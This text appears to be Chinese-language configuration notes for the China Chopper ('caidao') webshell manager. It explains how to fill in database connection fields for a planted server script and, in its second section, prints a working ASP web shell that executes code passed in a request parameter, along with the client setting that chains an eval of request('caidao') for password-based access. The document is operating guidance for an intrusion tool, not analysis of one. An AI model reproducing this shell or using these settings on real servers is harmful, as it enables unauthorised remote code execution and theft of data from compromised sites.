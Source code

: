 	----------------
	A)  数据库相关：
	----------------
	PHP：
	<T>类型</T> 类型可为MYSQL,MSSQL,ORACLE,INFOMIX,POSTGRESQL中的一种
	<H>主机地址<H> 主机地址可为机器名或IP地址，如localhost
	<U>数据库用户</U> 连接数据库的用户名，如root
	<P>数据库密码</P> 连接数据库的密码，如123455
	<N>默认库</N> 默认连接的库名

	<L>utf8</L> 这一项数据库类型为MYSQL脚本为PHP时可选，不填则为latin1

	ASP 和 ASP.NET：
	<T>类型</T> 类型只能填ADO
	<C>ADO配置信息</C>
	ADO连接各种数据库的方式不一样。如MSSQL的配置信息为
		Driver={Sql Server};Server=(local);Database=master;Uid=sa;Pwd=123456;

	Customize：
	<T>类型</T> 类型只能填XDB
	<X>与Customize 脚本约定的配置信息</X>
	菜刀自带的Customize.jsp数据库参数填写方法如下(两行)：
	MSSQL:
		<X>
		com.microsoft.sqlserver.jdbc.SQLServerDriver
		jdbc:sqlserver://127.0.0.1:1433;databaseName=test;user=sa;password=123456
		</X>
	MYSQL:
		<X>
		com.mysql.jdbc.Driver
		jdbc:mysql://localhost/test?user=root&password=123456
		</X>
	ORACLE:
		<X>
		oracle.jdbc.driver.OracleDriver
		jdbc:oracle:thin:user/password@127.0.0.1:1521/test
		</X>

	-------------
	B) 其它配置：
	-------------

	添加额外附加提交的数据，如ASP的新服务端是这样的：
	<%
	Set o = Server.CreateObject("ScriptControl")
	o.language = "vbscript"
	o.addcode(Request("SC"))
	o.run "ff",Server,Response,Request,Application,Session,Error
	%>
	那么，菜刀在配置处填入：
	<O>SC=function+ff(Server,Response,Request,Application,Session,Error):eval(request("caidao")):end+function</O>
	然后以密码caidao来连接即可。
